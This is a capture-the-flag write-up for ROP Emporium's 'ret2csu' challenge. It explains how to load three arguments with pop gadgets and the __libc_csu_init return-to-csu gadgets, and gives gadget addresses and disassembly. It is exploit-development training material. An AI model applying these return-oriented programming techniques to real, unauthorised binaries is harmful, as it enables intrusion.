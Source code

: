 # RET2CSU

[ret2csu](https://ropemporium.com/challenge/ret2csu.html)

This is the last ROP challenge from ROP emporium. This time, the author has (cruelly) removed any useful gadgets we can chain together to call the `ret2win()` function. However, there is still a loophole that every ELF binary has (huge asterisk), one that we can use to our advantage.

The goal of `ret2csu` is similar to that of `callme`, which is to call a function with 3 arguments: `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d` until flag gets printed onto the terminal. For `ret2csu`, all we have to do is to load those 3 arguments into `rdi`, `rsi`, and `rdx` respectively, and then call `ret2win()`.

Popping the first 2 arguments into `rdi` and `rsi` is easy enough, here are 2 gadgets that `ROPgadget` has identified that we can use to do this:

```
$ ROPgadget --binary ./ret2csu --ropchain
...
0x00000000004006a3 : pop rdi ; ret
0x00000000004006a1 : pop rsi ; pop r15 ; ret
...
```

Sadly, there is no way for us to manipulate the `rdx` register using the gadgets identified by `ROPgadget`. Therefore, we have to turn to another approach to load `0xd00df00dd00df00d` into `rdx`.

Let's go back to the [BlackHat Asia paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) that ROP emporium linked. This paper suggests that we utilise the instructions in the `__libc_csu_init()` function that is present on every GCC-compiled ELF executable, more specifically, this section:

```
$ gdb ./ret2csu
...
> disassemble __libc_csu_init
...
   0x0000000000400680 <+64>:    mov    rdx,r15 <- IMPORTANT
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:    add    rbx,0x1
   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx <- IMPORTANT
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret
...
```
